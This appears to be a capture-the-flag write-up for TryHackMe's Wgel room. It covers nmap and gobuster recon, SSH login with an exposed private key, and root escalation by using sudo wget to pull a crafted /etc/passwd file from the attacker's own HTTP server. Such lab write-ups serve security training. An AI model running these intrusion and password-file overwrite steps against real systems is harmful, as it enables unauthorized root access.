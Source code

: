 ## Wgel CTF - Try Hack Me

## 1. Oversikt
This box was rated as *easy* on tryhackme.com and has only two tasks. Get the user.txt flag and the root.txt flag. At first we use **NMAP** and **Gobuster** to scan the target machine. Further, we found an **ida_rsa private key** that we used in order to log into one of the users through ssh. Then we transfered over **linpeas** and made a scan on the machine from the inside. We figured out that the user could run `wget` as root. So in order to priv esc, we changed the whole `/etc/passwd` file, changing the root password, so that we could simply log into root with our newly created password.  

Link to the machine: https://tryhackme.com/room/wgelctf

## 2. Tasks
### 2.1 User.txt

```sh
export IP=10.10.90.195
```

First we do a **NMAP** scan:
```sh
nmap -sV -sC -oN nmap/initial $IP
```

Looking through the web sourcecode we found the username ***Jessie***

Did a **gobuster** scan with a different wordlist than usual:
```sh
gobuster dir -u http://$IP/sitemap -w /usr/share/dirb/wordlists/common.txt -o gobuster.log
```

The scan gave us this output:
```sh
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/.ssh (Status: 301)
/css (Status: 301)
/fonts (Status: 301)
/images (Status: 301)
/index.html (Status: 200)
/js (Status: 301)
```

The only one accessable is .ssh, and in there we find a `id_rsa` file. We can use this private key to get into Jessie's user with ssh.

Made a file called `jessie_rsa` in order to use it as a entry point. Have to use `chmod 600` on it since ssh requires it to be restricted to other users on that system:
```sh
chmod 600 jessie_rsa
ssh -i jessie_rsa jessie@$IP
```

It worked, and we can now poke around to find the file called `user_flag.txt` and just `cat` it out.

### 2.2 Privesc and root.txt
Initially we start suing the *Linpeas* scrip to look for possible privesc methods. We then use the ssh `scp` command to copy `linpeas.sh` over to the target since we are logged in on ssh:
```sh
scp -i jessie_rsa ./linpeas.sh jessie@10.10.90.195:/dev/shm
```

Got this from the linpeas script:
```sh
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

That means we can use `wget` to potentially get root access to the machine. This can be done in just a few steps:

- First we copy the content of `/etc/passwd` on the victims machine  
- Then we modify it and put in our own password as root.
- Finally we overwrite this new passwd file to the victim, so that we can use our new password to log in as root   

We use **python** in order to encrypt our new password for the root user:
```python
import crypt

crypt.crypt("newpass")
```

Then we copy the given string into the root password in the `/etc/passwd` file, so it looks like this:
```
root:$6$HR9170zTgAxPqTZ2$R/7.0y5UTocpZ8j0CJeHLB.zr3usufs9yvSvaX/E7uTkhFE6h1lS0KvufECDIXC846eFSFnS9v/0sqOSJ2uVe1:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
```  
After that we set up a http server with python on our own machine, then transfer the *new* `/etc/passwd` file over to the *old* `/etc/passwd` file on the victim machine:    

***On our machine:***
```sh
python3 -m http.server 9001
```

***On the victim machine:***
```sh
sudo wget http://10.8.33.116:9001/passwd -O /etc/passwd
```

Since we can run `wget` as sudo, we can use this to write to the passwd file and overwrite the old file. When that is done we can use the `sudo`, or `su` command in order to get a root-shell:
```sh
su
```
The shell will ask for a password, and we will simply just put in what we made as the password earlier in python. In this case we used "*newpass*".

Finally we can use the `id` or the `whoami` command in order to see what user we are running as. Then we can use the `find` command in order to figure out the location of root.txt:
```sh
find / -name "root.txt" 2>/dev/null
```

